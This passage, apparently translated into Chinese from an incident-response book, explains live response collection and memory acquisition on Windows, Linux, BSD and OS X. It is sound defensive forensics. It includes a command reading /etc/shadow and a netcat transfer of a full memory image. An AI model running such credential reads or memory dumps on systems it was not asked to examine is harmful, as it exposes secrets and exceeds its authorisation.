- 常规系统信息，例如内存容量、硬盘驱动器和挂载的文件系统
- 配置为在引导时自动启动的服务和程序列表，例如Web服务器、数据库、多媒体应用程序和电子邮件程序
- 预定在给定时间或间隔自动运行的任务列表
- 本地用户帐户和组成员身份列表
- 网络接口详细信息，包括IP和MAC地址
- 路由表、ARP表和DNS缓存
- 网络连接，包括关联进程
- 当前加载的驱动程序或模块
- 文件和其他打开的句柄
- 运行的进程，包括父进程ID（PID）和运行时间
- 系统配置数据
- 用户登录历史记录，包括用户名、来源和持续时间
- 标准系统日志数据
- 安装软件列表
- 适当的应用程序日志数据-Web浏览器历史记录、防病毒日志等
- 文件系统完整列表，包括文件系统的适当时间戳

当您阅读这些考虑因素时，您可能会想：“哇，谁会这样做？”或者“这似乎很明显。”在我们的职业生涯中，我们见过一些非常糟糕的响应协议作为标准流程实施的情况。在一些公司，标准程序是将实时响应工具包复制到受影响的系统中，并将收集的数据保存回该系统。在其中一些情况下，收集的数据包括写入主系统驱动器的千兆字节的完整内存转储。在其他组织中，标准流程是使用域管理员帐户远程登录，并运行诸如netstat或任务管理器之类的程序，以尝试找出发生了什么。而且，有些人仍然认为拔插电源是正确保留证据的最佳方法，因为您所做的任何其他事情都会修改硬盘驱动器。如果您的组织经常使用上述任何一种方法，则很可能没有遵循最佳实践，应考虑修订您的程序。

更积极的是，我们看到许多组织想出了很好的执行实时响应的方法。一个组织想出了一个特定的收集过程，我们认为这是值得注意的。该组织在专用文件服务器上设置了一个网络共享，其中包含两个文件夹。服务器不是任何域的一部分，并且使用一次性凭据使共享可访问，这些凭据不用于组织内的任何其他事项。共享上的第一个文件夹是只读的，并包含LR工具包。第二个文件夹是可写的，并且是实时响应输出的位置。然后，响应者遵循以下过程：

1.从可疑系统浏览共享（或映射驱动器号）。
2.直接从共享运行实时响应程序，并将输出文件夹设置为共享上的位置以写入数据。理想情况下，将创建一个子文件夹，使用唯一标识符（例如证据标记号）。
3.完成收集后，响应者返回自己的桌面，并将实时响应数据从临时共享位置移动到一个单独的服务器，该服务器永久存储实时响应数据并具有适当的访问控制。

- 注意：
  
    当然，可以采取更多的控件，使过程更加安全，包括为您的证据服务器建立空气隔离，并启用日志记录和审计以监视访问。过程本身也可以优化，以进一步减少人为错误并增加一致性，例如自动创建和使用适当的输出文件夹。
    

### **在Microsoft Windows系统上进行实时数据收集**

在基于Windows的系统上执行实时响应收集有三个主要选项：使用预构建的工具包，创建自己的工具包，或使用两者的混合。我们建议您考虑预构建的工具包，因为制造它们的组织可能比您更有时间确保它们符合法医社区的标准。如果这些解决方案无法满足您的需求或过于昂贵，或者您感到有冒险精神，您可能希望考虑构建自己的工具包。虽然创建实时响应工具包的过程肯定是有教育意义的，甚至可能有些有趣，但当您的时间变得有限时，您将开始忽略工具包。也许混合工具包是从头开始创建工具包的更好选择。此外，在通过该过程时，请记住保持一些实时响应工具选择标准的思路，因为您不希望创建不被接受作为实时数据收集工具包的东西。

#### **预建工具包**

在为本书研究过程中，我们发现好的实时响应工具包的选择非常有限。如果我们有一天成为王者，我们希望计算机安全社区能够开发更好的实时响应工具包。经过调研十几种解决方案后，我们发现一款商业（但免费）工具符合我们的标准：Mandiant的Redline。这是唯一一个收集到大多数所需数据点并允许我们遵循本章前面提到的大部分收集最佳实践的工具。

你们中的一些人可能会想为什么我们没有包括开源工具包。我们对开源工具或方法没有任何问题。实际上，许多开源工具在某些方面比商业工具优秀得多。答案是，我们发现我们审查的开源解决方案不符合实时响应工具包的要求；它们没有满足本书中提到的取证或实时响应工具的标准。其中许多都过时了或需要大量工作才能达到可接受的状态。

**Mandiant Redline**

Mandiant的Redline是一种GUI工具，既可以收集实时响应数据，也可以分析这些数据。为了收集数据，Redline创建了一个“收集器”——一组可以放置在可移动介质上并在每个感兴趣的系统上运行的命令行批处理脚本和二进制文件。然后，在你的系统上在GUI界面中执行分析。虽然Redline也可以分析数据，但我们将在第12章中介绍这种能力。

- **在网上获取它**

  [www.mandiant.com/resources/download/redline](http://www.mandiant.com/resources/download/redline)

根据Mandiant网站的说法，Redline正式支持Windows XP、Windows Vista和Windows 7（32位和64位）。我们还发现它在Server 2003和2008上运行得非常好。综合收集器非常广泛：Redline从25个不同的类别中收集信息，包括本章前面定义的所有常见实时响应数据。所收集的信息为事件响应者提供了许多有用的数据，可以用来回答许多调查问题，但可能有些过于庞大。如果你不需要那么多信息，或者正在寻求优化收集所需时间，可以调整所收集的信息。

- 注意：

  记住要避免在你正在调查的系统上安装Redline MSI包！你应该在你的正常工作计算机上或其他未受事件影响的系统上安装Redline。然后，在你的系统上创建Redline收集器。你在嫌疑系统上应该采取的唯一步骤是运行独立的Redline收集器批处理脚本，它会自动将数据保存到你运行脚本的相同位置。

一旦在你的系统上安装了Redline，使用Windows开始菜单启动工具。你将看到你可以执行的两个高级别类别的操作：收集数据和分析数据，如图7-1所示。


点击“创建综合收集器”选项。然后，按照图7-2所示的方式浏览到您想要保存收集器的位置。我们建议将收集器保存到可移动介质（如拇指驱动器或外部USB驱动器）上的目录中。 在保存收集器之前，您可以通过单击“编辑脚本”链接来查看和调整收集参数。综合默认设置是收集更多数据而不是较少的数据，因此您可能需要根据情况关闭某些项。例如，有时Windows域控制器有大量的事件日志，会导致收集问题或延迟。在编辑脚本时，您将取消选中“系统”选项卡中的“事件日志”。 一旦您保存了收集器，运行它就很简单。使用Windows资源管理器浏览到该目录，然后双击名为“RunRedlineAudit.bat”的文件。如果脚本需要UAC或管理员权限，它会自动提示您访问权限。DOS窗口将打开，收集将继续。在整个过程中，正常情况下会看到许多信息和警告消息。一旦窗口关闭，收集就完成了。


Redline的一个缺点是，它不会保留基本日志以记录其操作，并且它不会计算所创建数据的MD5校验和。尽管事件响应者可以编写封装脚本来运行Redline收集器并记录该信息，但我们更喜欢看到该功能内置到实时响应工具中。

#### **自己动手**

在搜索可预先构建的实时响应工具包进行评估时，我们发现许多博客、论坛、电子邮件列表等地方都有人正在寻找工具包。在许多情况下，他们得到的答案是考虑从头开始创建一个工具包。我们认识到许多组织可能会选择这种方法（我们曾经维护过一个Microsoft Windows实时响应工具包，直到最近才停止）。因此，我们将分享一些维护工具包的经验，包括如何设计框架以及哪些工具可能是工具包的可接受选项。 您需要做出的第一个决定是您将支持哪些操作系统版本。一些工具仅适用于某些操作系统，一些命令行选项可能不同，文件或目录的位置在Windows的不同版本之间也会发生变化。请记住，大多数Microsoft Windows版本都有两个主要版本，32位和64位，某些工具、命令和文件位置可能在它们之间有所不同。您应该考虑为每个要支持的操作系统构建测试系统-如果您有额外的物理机器，否则如果没有，则是虚拟机。我们建议关注您环境中最常见的操作系统，因为您选择支持的每个操作系统都是额外的工作-一次性和持续的工作。不仅需要研究如何从每个操作系统中收集所需的数据，每次更新工具包时，还需要在每个系统上重新运行它以确保一切正常。我们还建议定期与您的IT部门保持联系，以了解未来的情况。 在确定要支持哪些操作系统之后，您需要找到收集您想要的信息的工具。一些工具可能内置于操作系统中，一些可能是免费的第三方工具，而其他工具可能是付费商业工具。以下表格包含我们之前提到的所有常见领域以及一些可接受的选项，这些选项很容易获得。未为每个工具提供链接，因为某些链接经常更改。我们建议使用流行的搜索引擎查找没有链接的任何工具-它们非常受欢迎，很容易找到。 第一个表格列出了内置的Windows命令，您可以使用这些命令来收集许多关键领域的信息，包括网络连接、系统信息和系统日期和时间。在构建您的工具包时，请确保从干净的Windows系统中复制这些文件。还包括来自干净系统的命令处理器（cmd.exe）。这通常被称为使用“受信任的二进制文件”构建工具包。

| 收集的数据     | 命令                 |
| -------------- | -------------------- |
| 系统日期和时间 | date and time        |
| 时区           | systeminfo           |
| 安装的软件     | systeminfo           |
| 一般系统信息   | systeminfo           |
| 操作系统版本   | systeminfo           |
| 正常运行时间   | systeminfo           |
| 文件系统信息   | systeminfo           |
| 用户账户       | net user             |
| 用户组         | net group            |
| 网络接口       | ipconfig /all        |
| 路由表         | route print          |
| ARP表          | arp -a               |
| DNS缓存        | ipconfig /displaydns |
| 网络连接       | netstat -abn         |

下表列出了一些免费的工具，可提供通过内置的Windows命令难以获得的信息。这些领域包括持久性项目、已加载的驱动程序和全面的文件系统列表。

| 收集的数据          | 工具名称                                                     |
| ------------------- | ------------------------------------------------------------ |
| 网络连接            | DiamondCS openports (http://www.softpedia.com/)              |
| 服务和任务列表      | Microsoft autoruns                                           |
| 装入的驱动程序      | NirSoft DriverView                                           |
| 打开的文件和句柄    | NirSoft OpenedFilesView                                      |
| 运行进程            | Microsoft pslist                                             |
| 注册表 (配置数据)   | Microsoft logparser                                          |
| 事件日志 (登录历史) | Microsoft logparser                                          |
| 文件系统列表        | Microsoft logparser                                          |
| LR输出校验和计算    | http://pc-tools.net/ md5sums 或 hashutils (http://code.kliu.org/misc/hashutils) |

我们认为这些是你最想收集的最常见的领域。您还可以捕获许多其他数据点，包括预取信息、系统还原点信息、浏览器历史记录等等。您选择收集的内容取决于您快速获取答案的需求以及收集对系统的影响。 一些第三方工具是基于GUI的，通常不建议在实时响应工具包中使用。GUI应用程序不仅更加重量级（创建更多的运行时工件），而且在自动化使用方面也更加困难。幸运的是，我们提到的大多数工具都有一个命令行选项，指示工具不要在GUI模式下运行，而是将结果输出到文本文件中。例如，NirSoft的OpenedFilesView可以使用/stext选项运行。总的来说，命令行选项往往会随着时间的推移而变化，因此在构建工具包时，您应该研究当前选项并相应地选择它们。我们还将使用的工具的文件重命名，通常以“t_”为前缀。我们这样做是为了清楚地告诉哪些工件是我们的工具创建的，而不是其他人的。可选地，您还可以在每个支持的操作系统的实时响应工具包中使用可信的命令提示符和操作系统命令。 最后，您必须决定使用哪种脚本语言来自动化该过程。有许多选择，包括MS-DOS批处理、VBScript、Perl、Python和其他解释型语言。因为我们更喜欢较低的占用空间，所以我们选择在旧的实时响应工具包中使用DOS批处理。其他选项可能更容易使用或提供其他功能，但DOS批处理具有自动化收集过程所需的所有功能。DOS批处理也没有第三方依赖项-您可以在任何基于Windows的系统上运行批处理脚本。在创建脚本时，请务必添加代码，以记录适当数量的日志并计算收集数据的校验和。在处理文件和目录名称时要小心-特别是当它们很长或包含空格或特殊字符时。您可能需要编写特殊处理程序来处理这些情况。 在将闪亮的新实时响应工具包投入使用之前，请务必进行广泛的测试。构建一个测试环境，其中包括虚拟和/或物理硬件。测试环境应该在操作系统、应用程序和配置方面尽可能接近您的生产环境。运行多次收集并确保一切都按您的期望工作。随机选择您环境中的一些操作系统，然后在适当的时间运行测试收集。您不仅应该检查收集的数据的准确性，还应该在收集运行时仔细观察并密切注意错误或其他意外结果。

#### **内存收集**

在Microsoft Windows中收集内存曾经是一个非常微妙的过程，但是新的工具似乎已经使收集变得更加可靠。当我们进行研究时，我们发现至少有六个可接受的收集工具是免费提供的。其中四个工具可以捕获整个主内存的内容。三个工具可以捕获单个进程的内存，当您只对一个或多个正在运行的进程中的内存感兴趣时，这非常有用。

##### **完整内存转储**

下表列出了可以执行完整内存转储的知名工具。我们建议您熟悉多个工具。除了Mantech MDD之外，它们都可以运行在任何现代版的Microsoft Windows上，包括Windows XP、Vista、Windows 7和Server 2003。Windows Vista和7需要签名驱动程序，而Mantech MDD版本1.3的内存驱动程序未签名。

| Tool                            | Website                                             |
| ------------------------------- | --------------------------------------------------- |
| AccessData FTK Imager Lite      | http://www.accessdata.com/support/product-downloads |
| Mantech MDD                     | http://sourceforge.net/projects/mdd                 |
| Mandiant Memoryze               | http://www.mandiant.com/resources/download/memoryze |
| Moonsols Windows Memory Toolkit | http://www.moonsols.com/windows-memory-toolkit      |

在下面的两个部分中，我们介绍我们最常用于Windows内存成像的两个工具：Mandiant的Memoryze和AccessData的FTK Imager Lite。

###### **Mandiant Memoryze** 
我们最常用于转储内存完整内容的工具是Mandiant的Memoryze，它作为MSI打包。您有两个选项可以使用该软件，但两者都只应在安全计算机上执行，即没有恶意软件，没有受到威胁并且您通常用于调查工作的计算机：

- 警告：

  请记住不要在正在调查的计算机上执行这些操作！特别是，不要在正在调查的系统上下载或安装Memoryze或任何其他软件。在某些罕见情况下，这可能是您唯一的选择，但一般来说，这是不恰当的，因为您将会引起不必要的更改，可能会导致证据丢失或污染正在调查的系统。

  - 第一种选择需要您在安全计算机上安装软件，并将Memoryze文件从安装目录复制到可移动媒体。安装文件夹是Program Files\Mandiant\Memoryze，或在64位系统上是Program Files（x86）。复制该目录中的所有文件到可移动媒体上的一个目录中，然后您就可以成像系统的内存了。
  - 第二个选项是打开Windows命令提示符，将目录更改为您下载MSI包的位置，然后运行msiexec /a MemoryzeSetup.msi /qb TARGETDIR=<portable_drive_and_folder>。将<portable_drive_and_folder>替换为您希望将Memoryze安装到的USB闪存驱动器或其他媒体上的驱动器号和文件夹。

  到达嫌疑系统后，连接可移动媒体，浏览到您放置Memoryze的文件夹，并运行MemoryDD.bat。不要忘记，如果您在具有UAC或其他访问控制的系统上，则可能需要打开特殊的命令提示符或以不同的用户登录。如果您希望将输出存储到当前目录以外的位置，请使用-output命令行选项。运行批处理文件时，将出现一个新窗口，其输出类似于以下内容：

```powershell
<snip>
Beginning local audit.
Audit started 05-08-2012 20:21:23
Checking if 'D:\\Downloads\\LR\\Memoryze\\Audits\\JASON-PC\\2012050900
2123' exists...
Saving batch result to 'D:\\Downloads\\LR\\Memoryze\\Audits\\JASON-PC
\\20120509002123\\'.
Batch results written to
'D:\\Downloads\\LR\\Memoryze\\Audits\\JASON-PC\\20120509002123\\'.
Auditing (w32memory-acquisition) started 05-08-2012 20:21:23
Executing command for internal module w32memory-acquisition, 1.3.22.2
<Issue number="0" level="Info" summary="System range 0x0000000000000000 -
0x000000000009d000" context="EnumerateDevices"/>
<Issue number="7022" level="Warning" summary=
"Unable to read memory page(s)Invalid address range 0x00000000bf780000 -
0x00000000fffff000" context="MapPhysicalMemory"/>
```

- 注意：

  您可能会关注此 Memoryze 输出中的某些消息。接收一些“警告”是正常的。但是，如果任何消息指示“错误”，则可能存在问题。

当命令行窗口关闭时，收集过程就完成了。在确认收集成功之前，您应该检查输出文件的大小是否与内存的期望大小相匹配。有时Memoryze和其他内存收集工具可能会在特定的系统上出现问题。如果您无法让Memoryze创建一个预期大小的文件，请尝试使用另一个内存成像工具。请注意，Memoryze还包括被交换出的进程地址空间（使用虚拟内存），因此生成的内存映像文件可能比物理内存的大小要大。

###### **AccessData FTK Imager Lite**

我们在Windows中用于成像内存的第二个最常用的工具是AccessData的FTK Imager Lite，它是一个基于GUI的工具，可以成像内存和硬盘。 "Lite"表示该软件不需要安装，并且将直接从文件夹运行。这非常适合事件响应，因为您不需要将任何文件复制到您正在调查的系统。使用FTK Imager Lite的最方便的方法是下载并提取ZIP文件到可移动介质，例如外部USB硬盘驱动器。然后，您可以将驱动器连接到您正在调查的系统，并使用Windows资源管理器浏览到分配给USB驱动器的驱动器号，并双击FTK Imager.exe。 FTK Imager的主窗口如图7-3所示。

在“文件”菜单下是“捕获内存”选项。当您选择此功能时，将显示一个窗口，允许您选择输出捕获的位置以及希望给文件命名的名称。与任何其他现场响应过程一样，我们始终建议将输出保存到外部媒体或网络驱动器中。如果您已经使用外部USB驱动器运行了FTK Imager，则可以将内存捕获直接输出到该设备。请确保将文件命名为适当的名称，例如案例和证据标记号或案例和计算机名称。始终确保命名是唯一的 - 您可能会多次响应同一系统。一旦捕获开始，您将看到一个类似于这样的窗口：


当进程完成时，FTK Imager将报告“内存捕获成功完成”的状态。

有时，您可能只对特定进程的内存感兴趣。在下一节中，我们将介绍如何在Windows中转储单个进程的内存。

##### **单个进程转储**

在某些情况下，仅需收集单个进程的内存空间。例如，您可能知道运行了特定的恶意软件，并且只想要它的内存空间，或者可能存在一个系统进程，往往会保留最近的恶意网络活动的痕迹。我们通常用于满足这些要求的一些工具列在以下表中。

| Tool                         | Website                                                      |
| ---------------------------- | ------------------------------------------------------------ |
| Mandiant Memoryze            | http://www.mandiant.com/resources/download/memoryze          |
| Microsoft userdump           | http://www.microsoft.com/en-us/download/details. aspx?id=4060 |
| Microsoft procdump           | http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx |
| http://ntsecurity.nu/ pmdump | http://ntsecurity.nu/toolbox/pmdump                          |

在这些工具中，我们最常用的是Mandiant的Memoryze。在上一节创建的同一目录中，有一个名为ProcessDD.bat的文件。要捕获特定进程的内存空间，请运行ProcessDD.bat并使用-pid命令行选项指定数字PID。Memoryze将转储进程内存空间的内容，以及转储时进程打开的任何文件的缓存内容。

### **基于UNIX的系统的实时数据收集**

目前没有太多维护良好、预先构建的公开实时响应工具包适用于Unix。我们找到的最好的开源工具包叫做LINReS，由印度网络智能机构提供。

- **获取网址

  LINReS创建者的网站** [www.niiconsulting.com/innovation/linres.html](http://www.niiconsulting.com/innovation/linres.html)

  **LINReS下载** [sourceforge.net/projects/linres](http://sourceforge.net/projects/linres)

该工具包主要支持Red Hat Linux。但是，您可以将其用作构建适用于其他版本的Red Hat甚至适用于不同版本的Unix（如FreeBSD、Solaris和OS X）的工具包的模型。LINReS框架并不是很复杂，但您可能需要提高BASH脚本编写技能，以充分利用它。

由于可用的最新工具包有限，基于Unix的系统的实时数据收集仍然是一项自己动手的工作。创建基于Unix的LR套件的步骤与创建基于Windows的套件基本相同：选择要支持的操作系统，确定可能需要的第三方工具，选择将所有内容粘合在一起的脚本语言，并彻底测试所有内容。在下一节中，我们将介绍基础知识，帮助您入门。

#### **实时响应工具包**

与构建自己的基于Windows的工具包一样，您应首先决定要支持哪些操作系统。基于Unix的操作系统在分布和内部都是多样的。从用户的角度来看，某些发行版随着时间的推移变化很少，而其他发行版似乎每隔几个月就会发生显着变化。对于您选择支持的每个操作系统，您都必须保持对在您的环境中实施的新版本的敏锐关注。您还必须考虑基于Unix的操作系统的32位和64位版本。与选择要支持的Windows操作系统一样，一定要专注于常见的基于Unix的操作系统。选择每个版本时，您都签署了更多的工作。

- 注意：

  作为计算机安全顾问，我们要应对许多不同版本的基于Unix的系统，因此需要创建新的基于Unix的实时响应工具包的开销和时间敏感性非常大，因此我们创建了一系列工具，以帮助创建新的实时响应工具包。这些工具包括Bourne shell脚本，可以完成实时响应过程并识别正确的二进制文件和所有相关库。我们没有在此处包含这些脚本，因为它们需要不断维护，但它们说明了构建和维护许多基于Unix的系统的实时响应工具包所需的增加的工作量。

下一个选择是要为您的实时响应脚本使用哪种语言。选择语言的考虑因素与Windows相似。在基于Unix的操作系统中有许多可用的语言，例如Perl、Python、Bourne shell、BASH等。我们决定使用一种更近期但仍可靠的解决方案，即我们公司制作的Bourne-again Shell（BASH）实时响应脚本。

许多网站可以帮助您朝正确的方向发展。特别是一家名为“苹果检查员”的网站对于OS X非常有用。由于OS X是基于Unix的，因此该网站也可能为您提供有关基于Unix的系统的实时响应技术的想法。在组装自己的工具包时，请注意，Apple OS X中的system_profiler命令返回大量有关系统和连接设备的有用信息。

- **获取网址**

  **苹果检查员网站** [www.appleexaminer.com](http://www.appleexaminer.com/)**收集Apple OS X下的数据的想法** [www.appleexaminer.com/MacsAndOS/](http://www.appleexaminer.com/MacsAndOS/) Analysis/InitialDataGathering/InitialDataGathering.html

以下表格列出了您应考虑收集的基本基于Unix的数据类别，以及建议的工具或命令。由于每个操作系统之间的差异，此表格故意过于通用，不适用于所有Unix版本。但是，在创建或维护Unix实时响应工具包时，它应该是一个很好的参考。

| 收集的数据                                                   | 工具名称                                                     | 许可证                 |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ---------------------- |
| 系统日期和时间                                               | date 命令                                                    | 操作系统的一部分       |
| 已安装的软件                                                 | 基于 Debian：dpkg --get-selections 命令                      |                        |
| 基于 RPM：rpm -qa 命令                                       |                                                              |                        |
| 基于 BSD：pkg_info 命令                                      |                                                              |                        |
| 基于 OS X：复制 /Library/Receipts/InstallHistory.plist 文件  |                                                              |                        |
| 文件系统信息                                                 | mount，df 和 fdisk -l 命令                                   | 操作系统的一部分       |
| 操作系统版本                                                 | cat /etc/issue 命令（与操作系统有关）                        | 操作系统的一部分       |
| 内核版本                                                     | uname -a 命令                                                | 操作系统的一部分       |
| 运行时间                                                     | w 命令                                                       | 操作系统的一部分       |
| 定时任务                                                     | 创建一个 tar 文件，其中包含通常存储在 /var/spool/cron 中的 cron 文件 | 操作系统的一部分       |
| 服务                                                         | 依赖于 init 系统                                             | 操作系统的一部分       |
| 用户账户                                                     | cat /etc/password 和 cat /etc/shadow 命令                    | 操作系统的一部分       |
| 用户组                                                       | cat /etc/group 命令                                          | 操作系统的一部分       |
| 网络接口                                                     | ifconfig -a 命令                                             | 操作系统的一部分       |
| 路由表                                                       | netstat -rn 命令                                             | 操作系统的一部分       |
| ARP 表                                                       | arp -a 命令                                                  | 操作系统的一部分       |
| 网络连接                                                     | netstat -anp 命令                                            | 操作系统的一部分       |
| 已加载的驱动程序                                             | Linux：lsmod 命令                                            |                        |
| BSD：kldstat 命令                                            |                                                              |                        |
| OS X：kextstat 命令（其他操作系统会有所不同）                | 免费，通常已安装                                             |                        |
| 打开文件和句柄                                               | lsof 命令                                                    | 操作系统的一部分       |
| 运行进程和线程                                               | Linux: ps auxwwwem命令(因其他操作系统而异)                   | 操作系统的一部分       |
| 配置数据(文件副本)                                           | 创建/etc目录下的tar文件(例如:tar cvfz /path/to/media/host-etc.tar.gz /etc/) | 操作系统的一部分       |
| 系统日志(文件副本)                                           | 通常在/var/log或/var/adm或/Private/var/log (OS X)中，但不同操作系统会有所不同 | 操作系统的一部分       |
| 用户shell历史记录(文件副本)                                  | BASH: .bash_history                                          |                        |
| SH: .history                                                 |                                                              |                        |
| (因shell而异)                                                | 操作系统的一部分                                             |                        |
| 文件系统列表                                                 | find / -xdev -printf "%m;%Ax;%AT;%Tx;%TT;%Cx;%CT;%U;%G;% s;%p\n"命令，或者如果find未安装: |                        |
| ls -alRu /命令(atime) ls -alRc /命令(ctime) ls -alR /命令(mtime) | 操作系统的一部分                                             |                        |
| LR输出校验和计算                                             | md5 或 md5sum命令                                            | 通常是操作系统的一部分 |
|                                                              |                                                              |                        |
|                                                              |                                                              |                        |

对于您想要支持的每个Unix-based系统版本，您将需要进行广泛的测试以确保所有内容都正常工作。我们建议重新测试相同操作系统发布的次要版本更新。

#### **内存收集**

每个Unix和BSD版本都以不同的方式处理内存设备。 Linux以及其他一些系统，也已经改变了其安全模型以防止传统的访问。在接下来的几个部分中，我们会涵盖一些常见的变体。如果您遇到奇怪的情况（例如IRIX或Solaris），请研究内存设备节点的路径并尝试使用dd。正如我们将在分析章节中讨论的那样，Unix或BSD内存映像的分析通常是更大的问题。

**从Linux内核中收集**

在早期版本的Linux中，您可以简单地使用常见的取证磁盘映像工具，例如dd或DCFLdd，通过/dev/mem设备捕获内存内容。然而，最近版本的Linux内核中的安全改进防止了即使在root用户身份下直接访问内存设备。需要一种特殊的技术来获得对内存的访问。最常见的解决方案是使用一个可加载内核模块（LKM），提供对内存的直接访问。我们发现的最好的免费解决方案是一个名为Linux Memory Extractor或LiME的开源工具。该工具允许您从基于Linux的操作系统中捕获内存，并将映像保存到本地文件或通过TCP连接保存到远程位置。

- **访问网站

  Linux Memory Extractor website** [code.google.com/p/lime-forensics](http://code.google.com/p/lime-forensics)

成功使用LiME的主要挑战在于，因为该工具是一个可加载内核模块，所以它应该为运行在目标系统上的内核的确切版本编译。此外，在lime.c的版本1.1（r14）中，没有包括生成输出的加密校验和的功能。请确保使用MD5等计算并存储校验和的输出。我们在许多流行的Linux发行版上测试了LiME，包括Ubuntu、CentOS、Debian和openSuSE。测试的内核版本包括2.6.18、2.6.32和3.1.10（32位和64位）。在所有情况下，该工具都可以编译并正常工作。工具的使用文档可以在LiME网站上的PDF中找到。

由于不是每个人都熟悉编译可加载内核模块的过程，让我们逐步介绍从最新版本的可用Ubuntu桌面版本（版本12.04）中捕获内存的过程。第一步是下载LiME。下载可在以下链接中获得。

- **访问网站

  Linux Memory Extractor downloads** [code.google.com/p/lime-forensics/downloads/list](http://code.google.com/p/lime-forensics/downloads/list)

版本1.1包是一个标准的Unix tarball。使用tar xvf <filename>命令提取文件，然后在src文件夹中使用make构建LiME。请务必避免在目标系统上执行这些步骤。完成make过程后，您应该在目录中有一个带有.ko扩展名的文件。文件名中的版本号将对应于您的内核版本。这是已编译的LiME Linux内核模块：

```powershell
[root@ubuntu src]# ls *.ko
lime-3.0.0-12-generic.ko
```

请注意，一些Linux发行版默认没有安装所需的Linux内核头文件或源代码文件。LiME需要它们才能正确构建。如果它们不存在，您将需要安装内核头文件和源代码。大多数现代的Linux发行版都可以通过其包管理器轻松实现。通过一些互联网搜索，很快就可以找到您平台所需的内容。

要继续，请将生成的.ko文件复制到可移动介质或其他外部位置，您计划存储目标系统的内存映像。然后，您将转到目标系统并挂载或连接带有LiME模块的介质。然后，您就像加载许多其他内核可加载模块一样，使用insmod命令加载LiME模块。有一个必需的参数名为“path”，用于指定LiME应该如何处理内存捕获输出。有两种输出方法：第一种指定要保存内存映像的文件名，第二种指示LiME侦听网络端口并等待连接以将内存映像传输到。有一个第二个必需的参数名称为“format”。我们使用的默认格式是“lime”格式，但还有其他格式可用。这些选项在LiME文档中都有详细介绍。

让我们在几种情况下使用您会使用的命令。在第一种情况下，我们将外部USB驱动器挂载到/media/usb。我们想将内存映像存储到/media/usb/system1_memory目录中。为此，您将执行以下命令：

```
insmod /media/usb/lime-3.0.0-12-generic.ko
  path=/media/usb/system1_memory.lime format=lime
```

LiME v1.1没有控制台输出，除非有致命错误。预期行为是在几分钟后返回到shell提示符。

第二个用例是指示LiME在TCP网络端口上侦听连接，然后传输内存捕获。以下命令指示LiME在TCP端口4444上侦听连接：

```
insmod /media/usb/lime-3.0.0-12-generic.ko path=tcp:4444 format=lime
```

在您将存储图像的系统上，您可以使用netcat命令连接到目标系统上的端口4444（在本例中为192.168.100.10），并将内存捕获重定向到文件：

```
nc 192.168.100.10 4444 > /evidence/system1_memory.dump
```

Netcat提供没有控制台输出，除非有致命错误。预期行为是在几分钟后返回到shell提示符。如果在输出目录上执行“ls”，则应该存在system1_memory.dump文件且大小符合预期。说到预期大小，如果您不知道系统上的内存大小，则可以执行“free”命令以显示总可用内存：


在这种情况下，free命令显示系统上总共有1,019,124Kb（约1GB）的物理内存，输出文件的大小应与内存大小一致。

**从基于BSD的内核中收集**

您可以使用图像工具直接针对FreeBSD、NetBSD或OpenBSD中的“/dev/mem”设备执行内存获取。理想情况下，您应该使用诸如DC3dd或DCFLdd之类的工具。因为这些工具通常不会预安装在BSD上，所以您将需要下载或编译它们（在未受损的系统上），然后将它们包含为您受信任的响应工具包的一部分。有关编译DC3dd的一些技巧，请参见取证复制章节。BDS“Ports”系统中可能也有DC3dd或DCFLdd的预编译版本。在FreeBSD中，可以通过执行以下操作轻松安装DCFLdd：

```
pkg_add -r dcfldd
```

确保在虚拟机或物理硬件中安装目标OS，并在那里编译和测试后再移动到实际目标系统。一旦您在便携介质或其他适当位置上拥有DCFLdd，则捕获内存的通用命令为：

```powershell
dcfldd if=/dev/mem of=/media/usb/memory.dd
         hash=md5 hashlog=/media/usb/memory.log
```

然而，有一件事情需要特别注意。在最近版本的BSD操作系统中，/dev/mem设备没有文件结束符（EOF）——因此，dd命令将永远运行，或者可能会导致系统崩溃。为了解决这个问题，你必须使用“count”选项限制dd命令传输确切大小的内存并停止。你可以通过执行以下命令查看物理内存的大小（以字节为单位）：

```
sysctl hw.physmem
```

在一些BSD版本中，你可能需要查询hw.physmem64对象。如果你看到hw.sysmem的值为负数，通常情况下就是这种情况。该命令的输出显示内存的字节数：

```powershell
hw.physmem: 252727296
```

出于性能考虑，通常最好以大于一个字节的块传输数据。因此，我们建议您将大小除以4,096字节（内存页面的典型大小），以便可以以4K块传输数据。在先前显示的内存大小的情况下，我们需要传输总共61,701个4K块（252,727,296 / 4,096 = 61,701）。以下命令执行该传输：

```powershell
dcfldd if=/dev/mem of=/media/usb/memory.dd
    bs=4096 count=61701 hash=md5 hashlog=/media/usb/memory.log
```

当然，确保将输出存储到适当的位置，而不是返回从中捕获内存的系统。一个好的选择是NFS共享，经过加密的网络通道（cryptcat或stunnel），或通过USB连接的媒体。

**从Apple OS X收集**

尽管我们有广泛的响应经验，但我们尚未遇到在基于Apple OS X的系统上执行内存转储的要求。考虑到苹果的日益普及和市场份额，我们进行了一些研究，以找到一种可接受的内存捕获工具。我们找到了两个我们认为可接受的工具：Mandiant的Memoryze for the Mac和ATC-NY的Mac Memory Reader。

**Memoryze for the Mac** 我们首先介绍的工具是Mandiant的Memoryze for the Mac。Memoryze for the Mac版本1.1可以收集和分析来自以下支持的Apple OS X系统的内存：

- Mac OS X Snow Leopard（10.6）32/64位

- Mac OS X Lion（10.7）32/64位

- Mac OS X Mountain Lion（10.8）64位

  - **在网上下载Memoryze for the Mac
    - - [www.mandiant.com/resources/download/mac-memoryze](http://www.mandiant.com/resources/download/mac-memoryze)

  与任何实时数据收集过程一样，第一步是将工具放置在外部媒体或其他目标系统可以访问的适当位置。然后进入目标系统，挂载介质或共享，并执行该工具，将内存文件保存回同一外部位置：

```powershell
system1:memoryze4mac root# ./macmemoryze dump -f system1_memory.dd
INFO: loading driver...
INFO: opening /dev/mem...
INFO: dumping memory to [system1_memory.dd]
INFO: dumping 5637144576-bytes [5376-MB]
INFO: dumping [5637144576-bytes:5376-MB                       100%
INFO: dumping complete
INFO: unloading driver...
system1:memoryze4mac root#
```

Mandiant的Memoryze for the Mac 1.1的主要缺点是它没有内置选项来计算输出的加密哈希值。

**Mac Memory Reader** 我们找到的第二个工具是来自ATC-NY的Mac Memory Reader。Mac Memory Reader只收集内存内容；ATC-NY提供单独的分析工具。如果您是美国执法机构的一部分，他们的许多工具是免费的，所以您一定要查看它们。

- **在网上获取Mac Memory Reader

